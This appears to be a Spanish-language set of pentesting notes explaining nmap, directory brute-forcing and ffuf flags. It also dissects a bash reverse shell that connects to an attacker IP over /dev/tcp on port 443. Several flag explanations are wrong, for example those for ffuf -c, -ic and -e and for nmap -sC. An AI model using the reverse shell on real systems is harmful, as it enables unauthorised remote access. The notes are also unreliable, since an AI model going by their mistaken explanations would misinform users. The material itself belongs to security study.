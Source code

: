 **1. “-sS”:**
  - este parámetro nos permite hacer un sondeo Tcp pero no establecer conexión En vez de “SYN>SYN/ACK>ACK” hace un “SYN>SYN/ACK/RST” El rst es para cerrar conexión, como no se ha esablecido conexión normalmente no se guarda en los logs ni rastro en los firewalls.
    
**2.	“-p-“**
  - Con esto le indicamos que nos escanee los 65535 puertos totales que hay
     
**3. “—open”** 
  -	para que nos muestre solo los puertos abiertos y que ignore los filtrados,
    
**4. “-T5”** 
  - Este nos permite modificar la plantilla de temporizado del escaneo, existen 5 modos : paranoico (0), sigiloso (1), amable (2), normal (3), agresivo (4) y loco (5), Los 2 primeros reducen el sondeo tcp para que utilize menos ancho de banda. La 0 sondea 1 puerto a la vez, y espera 5 min antes de enviar cada sonda, el 1 y el 2 son similares, esperan 0.4 segundos entre sondas, el 3 (uso por defecto de nmap) hace sondeos en paralelo, el 4 y el 5 envian sondas cada 5 ms, lo único que les diferencian es el tiempo que esperan para recibir la respuesta de el sondeo TCP.
    
**5. “—min-rate 5000”**
  -	Nos permite especificar la cantidad mínima de paquetes que se envían por segundo, por lo que he investigado el numero que menos falsos positivos y falsos negativos da se encuentra entre el 5000-5800.
    
**6. ”-n”** 
  -	Le indicamos que no queremos que nos haga la resolución DNS al host, básicamente pregunta a los servidores DNS cual es el dns del host (nslookup), lo que ocurre es que la resolución hace muy lento el escaneo por lo que lo desactivamos ya que si queremos hacer resolución dns lo podemos hacer manualmente.
    
**7. “-Pn”**
  - En este caso le indicamos que no lance trazas icmp al host, ya que normalmente antes de un escaneo nmap envia trazas icmp para determinar si el host está activo o no, lo que ocurre es que ralentiza mucho el escaneo por lo que lo deshabilitamos ya que si queremos determinar si el host esta vivo tenemos muchísimos otros métodos incluso si las trazas icmp están bloqueadas por firewall físico o de sistema operativo.
    
**8. “-oG”**
  - Le indicamos que nos ponga el output en un archivo en formato grepeable para que después cuando lo pase por una función de mi zshrc me copie al portapapeles los puertos abiertos
    
**9. “-vvv”**
  -	Es para ponerlo en verbose mode, básicamente que mientras está haciendo el escaneo nos muestre que puertos encuentra abiertos
    
**10. “-sC”**
  -	Nos permite detectar que servicios están corriendo en los puertos abiertos
    
**11. “-sV”**
  -	Nos permite detectar la versión de los servicios que estan ejecutándose en los puertos lo que nos permite encontrar vulnerabilidades
    
**12. “-oN”**
  -	Es para exportarlo en formato Nmap por si después tenemos que volver a analizarlo.

**13.	“-u”**
  -	Es para indicarle el url victima
  	
**14.	“-w”**
  -	Es para indicarle el diccionario para la fuerza bruta, en este caso utilizo un que ya esta creado llamado “SecLists” que es un conjunto de diccionarios para hacer fuerza tanto como subdominios, fuzzing, etc.
    
**15. “-t”**
  - Es para indicarle los hilos de el proceso (Cuantas tareas a la vez debe ejecutar a la vez (en este caso 400)

**16. “-x”**
  - Es para indicarle que extensiones específicas quiero que me reporte que ha encontrado en algún directorio.
    
**17.	“bash -c”**
  -	Primero lo que hacemos es asegurarnos que el comando se ejecuta con bash y no con otro tipo de Shell, ya que sinó no funcionará.

**18.	“bash -i”**
  -	Ejecutamos una bash interactiva, ya que bash -c solo nos permite ejecutar comandos, como por ejemplo: “whoami”, pero este no nos permite ejecutar nada más, por esa razón una bash interactiva nos deja poner comandos todas las veces que queramos y recibir el output.
    
**19.	“>&”**
  -	Con estos caracteres especiales redirigimos el stdrr y el stdout a nuestro equipo
    -	“/dev/tcp/192.168.1.60 /443”
  - En este caso “/dev/tcp” está siendo utilizado para entablar por tcp una conexión con nuestra ip por el puerto 443
    
**20.	“0>&1”**
  -	Redirige el stdin a stdout, esto se hace para que se pueda interactuar con una Shell en remoto mediante la conexión establecida.
  -	Esta redirección es utilizada para hacer que la entrada estándar del proceso Bash (que normalmente se recibiría del teclado) esté conectada a la misma ubicación que la salida estándar. Esto significa que cualquier entrada que se escriba en la sesión de la shell se transmitirá a través de la misma conexión que se ha establecido con la dirección IP y puerto especificados. Esto permite la interacción bidireccional con la shell remota a través de la conexión de red establecida.

**21. ffuf**
  - Prueba diferentes combinaciones de direcciones URL de un dominio para identificar qué rutas están activas y cuáles no.

**22. -c**
  - Con este parámetro haremos que siga automáticamente las redirecciones HTTP y HTTPS.

**23. -u**
  - Este paramettro hacemos especificar una URL para hacer la fuerza bruta.
    
**24. -w**
  - Especificamos la ubicación del archivo de palabras que utiliza la herramienta ffuf para realizar la fuerza bruta, ese archivo se llama common.txt, ubicado en /usr/share/wordlists/dirb.

**25. -ic**
  - Con este parámetro hacemos que los códigos en estado HTTP no se distinga entre mayúsculas y minúsculas.
    
**26. -fc 403**
  - Con este parámetro escogemos que queremos filtrar durante el escaneo en este caso queremos las respuestas de 403 (Forbidden).
    
**27. -e**
  - Este parámetro lo utilizaremos para decir que archivos queremos que nos filtre, en este caso seria .txt y .html

